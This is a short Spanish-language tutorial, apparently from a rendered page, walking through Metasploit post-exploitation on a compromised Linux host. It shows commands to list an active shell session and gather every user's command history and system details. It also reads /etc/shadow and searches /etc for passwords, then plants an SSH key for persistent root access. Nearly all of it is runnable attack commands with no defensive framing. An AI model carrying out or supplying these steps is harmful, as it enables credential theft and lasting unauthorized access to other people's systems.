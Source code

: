 #### Paso 1: Verifica la sesión

```bash
sessions
```

Respuesta:

```
[*] Active sessions
  Id  Name  Type            Information  Connection
  1         shell linux                  192.168.1.100 -> 192.168.1.101
```

---

#### Paso 2: Ejecuta post-exploit

```bash
use post/linux/gather/enum_users_history
set SESSION 1
run
```

Esto lista el historial de comandos de todos los usuarios.

---

#### Paso 3: Enumeración del sistema

```bash
use post/linux/gather/enum_system
set SESSION 1
run
```

Te dice:

- Distribución Linux
- Kernel
- Arquitectura
- Uptime

---

#### Paso 4: Buscar contraseñas

En shell remota:

```bash
cat /etc/shadow         # Si tienes root
grep -r 'password' /etc
```

---

#### Paso 5: Crear acceso persistente

```bash
use post/linux/manage/sshkey_persistence
set SESSION 1
set USERNAME root
set SSH_KEY /root/.ssh/id_rsa.pub
run
```
